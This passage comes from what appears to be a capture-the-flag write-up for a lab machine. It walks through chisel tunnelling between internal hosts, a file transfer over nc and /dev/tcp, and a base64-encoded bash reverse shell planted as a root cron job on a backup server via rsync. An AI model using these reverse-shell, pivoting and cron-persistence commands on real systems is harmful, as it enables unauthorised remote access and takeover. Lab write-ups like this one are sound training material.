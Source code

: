 Let’s transfer chisel to www:

```bash
#on attack 
nc -vlnp 8001 -q0 < chisel

#on node-red
#we already done this part; this is just reminder it's opened
./chisel client 10.10.16.4:8005 8001:localhost:8001 &

#on www
cat < /dev/tcp/172.19.0.3/8001 > chisel
```

Now, let’s set up connection for www to talk to our server on 10.10.16.4, via our node-red pivot:

```bash
#on node-red
#all connections to localhost 8005 will be forwarded to server 8005, essentially, making node-red a proxy server
./chisel client 10.10.16.4:8005 8005:localhost:8005 &
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2022.png)

Now, on www connect to our proxy server and local port forward 9002 to node-red’s 9002:

```bash
#on www
./chisel client 172.19.0.3:8005 9002:localhost:9002 & 
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2023.png)

Now that we are connected, let’s a reverse shell cron job that executes every minute. First, encrypt our reverse shell payload in b64:

```bash
echo "bash -c 'bash -i >& /dev/tcp/172.20.0.3/9002 0>&1'" | base64

YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4zLzkwMDIgMD4mMScK
```

Now our cron job payload. We have to do the following in root as we need the same permission as the user (root) executing the cron job:

```bash
#on www
./suid

echo "* * * * * root echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4zLzkwMDIgMD4mMScK | base64 -d | bash" > rev

```

Now let’s send our cron job; still in our privileged shell:

```bash
rsync -avp rev rsync://backup:873/src/etc/cron.d/rev

sending incremental file list
rev

sent 203 bytes  received 35 bytes  476.00 bytes/sec
total size is 96  speedup is 0.40
```
